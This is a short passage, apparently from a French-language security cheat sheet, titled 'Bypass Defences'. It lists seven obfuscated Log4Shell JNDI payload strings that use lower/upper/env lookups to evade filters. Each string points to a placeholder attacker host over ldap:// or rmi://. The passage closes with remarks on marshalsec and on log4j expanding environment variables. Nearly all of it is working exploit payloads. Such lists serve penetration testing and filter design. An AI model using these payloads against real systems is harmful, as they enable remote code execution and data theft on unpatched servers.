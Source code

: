 
Bypass Defences

```sh
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}
```

```sh
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}
```

```sh
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}
```

```sh
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
```

```sh
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
```

```sh
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}
```

```sh
${${::-j}ndi:rmi://attackerendpoint.com/}
```


Notez l'utilisation du protocole `rmi://` dans le dernier. C'est également une autre technique valable qui peut être utilisée avec l'utilitaire `marshalsec`.

De plus, dans le moteur log4j, vous pouvez développer des variables d'environnement arbitraires (si cela n'était pas déjà assez grave)

